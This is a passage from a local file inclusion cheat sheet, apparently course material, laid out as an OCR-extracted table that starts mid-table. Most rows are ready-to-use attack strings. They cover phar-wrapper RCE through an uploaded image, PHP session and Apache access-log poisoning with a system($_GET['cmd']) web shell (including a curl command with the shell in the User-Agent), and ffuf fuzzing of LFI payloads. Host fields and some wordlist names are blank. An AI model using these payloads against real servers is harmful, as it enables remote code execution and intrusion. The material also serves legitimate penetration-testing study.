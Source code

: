 |                        | /index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id                                                    | RCE with malicious uploaded phar                           |
| **Log Poisoning**      |                                                                                                                            |                                                            |
|                        | /index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd                                                   | Read PHP session parameters                                |
|                        | /index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E                                                 | Poison PHP session with web shell                          |
|                        | /index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id                                            | RCE through poisoned PHP session                           |
|                        | curl -s "http://:/index.php" -A '<?php system($_GET["cmd"]); ?>'                                                            | Poison server log                                          |
|                        | /index.php?language=/var/log/apache2/access.log&cmd=id                                                                      | RCE through poisoned PHP session                           |
| **Misc**               |                                                                                                                            |                                                            |
| **ffuf - Fuzzing**     |                                                                                                                            |                                                            |
|                        | ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://:/index.php?FUZZ=value' -fs 2287 | Fuzz page parameters                                       |
|                        | ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://:/index.php?language=FUZZ' -fs 2287                 | Fuzz LFI payloads                                          |
|                        | ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://:/index.php?language=../../../../FUZZ/index.php' -fs 2287 | Fuzz webroot path                                          |
|                        | ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://:/index.php?language=../../../../FUZZ' -fs 2287                                | Fuzz server configurations                                 |
| **LFI Wordlists**      |                                                                                                                            |                                                            |
|                        | LFI-Jhaddix.txt                                                                                                            | Webroot path wordlist for Linux                            |
|                        |                                                                                                                            | Webroot path wordlist for Windows                          |
|                        |                                                                                                                            | Server configurations wordlist for Linux                   |
|                        |                                                                                                                            | Server configurations wordlist for Windows                 |
| **File Inclusion Functions** |                                                                                                                      |                                                            |
| **PHP**                |                                                                                                                            |                                                            |
|                        | include()/include_once()                                                                                                   | ✅ Read Content, ✅ Execute, ✅ Remote URL                    |
|                        | require()/require_once()                                                                                                   | ✅ Read Content, ✅ Execute, ❌ Remote URL                    |
|                        | file_get_contents()                                                                                                        | ✅ Read Content, ❌ Execute, ✅ Remote URL                    |
|                        | fopen()/file()                                                                                                             | ✅ Read Content, ❌ Execute, ❌ Remote URL                    |
| **NodeJS**             |                                                                                                                            |                                                            |
|                        | fs.readFile()                                                                                                              | ✅ Read Content, ❌ Execute, ❌ Remote URL                    |
|                        | fs.sendFile()                                                                                                              | ✅ Read Content, ❌ Execute, ❌ Remote URL                    |